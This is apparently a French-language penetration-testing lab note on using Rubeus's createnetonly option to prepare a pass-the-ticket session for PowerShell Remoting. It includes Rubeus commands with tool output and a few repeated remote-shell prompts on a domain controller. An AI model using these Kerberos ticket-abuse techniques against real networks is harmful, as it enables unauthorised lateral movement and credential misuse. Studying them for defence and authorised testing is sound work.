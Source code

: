 ***

### <mark style="color:blue;">Rubeus - PowerShell Remoting with Pass the Ticket</mark>

Dans **Rubeus**, l’option **`createnetonly`** permet de **créer un processus ou une session de connexion "sacrificielle"** avec le **type de connexion 9** (_Logon type 9_).

🔹 **Qu’est-ce que cela signifie ?**

* Cela crée un processus qui utilise des **identifiants réseau uniquement** (_netonly_).
* Le processus est **caché par défaut**, mais on peut utiliser l’option **`/show`** pour l’afficher.
*   Cette action est **équivalente à la commande Windows** :

    ```powershell
    runas /netonly
    ```

    👉 Ce mode permet de s'authentifier sur un réseau sans affecter la session locale.

🔹 **Pourquoi utiliser cette option ?**

* Quand on demande un **Ticket Kerberos (TGT)**, il est normalement enregistré dans la session de l’utilisateur.
* Si on crée un **nouveau ticket** sans `createnetonly`, cela **écrasera** les TGTs existants dans la session.
* En utilisant **`createnetonly`**, on **évite d’écraser** les tickets de l’utilisateur actuel et on peut tester l’authentification réseau sans modifier sa session.

💡 **Cas d’usage**\
Si tu veux tester un accès réseau en utilisant un compte différent sans affecter ta session actuelle, tu peux faire :

```powershell
Rubeus createnetonly /user:admin /domain:inlanefreight.htb /show
```

Cela crée un processus où `admin` est utilisé uniquement pour l’authentification réseau.

{% code fullWidth="true" %}
```powershell
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3


[*] Action: Create process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : JMI8CL7C
[*] Domain          : DTCDV6VL
[*] Password        : MRWI6XGI
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648
```
{% endcode %}


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname